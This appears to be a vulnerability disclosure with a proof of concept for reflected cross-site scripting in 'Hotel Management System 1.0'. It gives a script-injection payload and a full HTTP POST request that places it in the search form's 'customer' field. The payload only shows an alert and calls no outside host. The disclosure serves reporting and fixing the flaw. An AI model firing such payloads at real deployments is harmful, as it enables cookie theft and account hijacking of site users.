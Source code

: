 #### Title: Hotel Management System 1.0 Reflected Cross-Site Scripting
#### Author: Ashish Kumar (https://www.linkedin.com/in/ashish-kumar-0b65a3184)
#### Date: 03.07.2022
#### Vendor: https://www.sourcecodester.com/users/tips23
#### Software: https://www.sourcecodester.com/php-codeigniter-hotel-management-system-source-code
#### Version: 1.0
#### Reference: https://github.com/CyberThoth/CVE/blob/main/CVE/Hotel%20Management%20system/Cross%20Site%20Scripting(Refelected)/POC.md

#### Description：
#### Hotel Management System is vulnerable to Reflected cross-site scripting on the search parameter.

#### Impact:
 An attacker could steal cookies with a crafted URL sent to the victims.

#### Payload used:
`"><script>alert("XSS")</script>`

### POC

```
POST /ci_hms/search HTTP/1.1
Host: localhost
Content-Length: 11
Cache-Control: max-age=0
sec-ch-ua: "Chromium";v="97", " Not;A Brand";v="99"
sec-ch-ua-mobile: ?0
sec-ch-ua-platform: "Windows"
Upgrade-Insecure-Requests: 1
Origin: http://localhost
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/97.0.4692.71 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Referer: http://localhost/ci_hms/
Accept-Encoding: gzip, deflate
Accept-Language: en-GB,en-US;q=0.9,en;q=0.8
Cookie: ci_session=9kn2p06ccqlaaf2fft0qpgso3qdgj7j1
Connection: close

customer="><script>alert("XSS")</script>
```

![image](https://github.com/CyberThoth/CVE/blob/19d02bfc410f0a57bf3dabb23bc7f31a18e0e07f/CVE/Hotel%20Management%20system/Cross%20Site%20Scripting(Refelected)/1.png)

![image](https://github.com/CyberThoth/CVE/blob/19d02bfc410f0a57bf3dabb23bc7f31a18e0e07f/CVE/Hotel%20Management%20system/Cross%20Site%20Scripting(Refelected)/2.png)
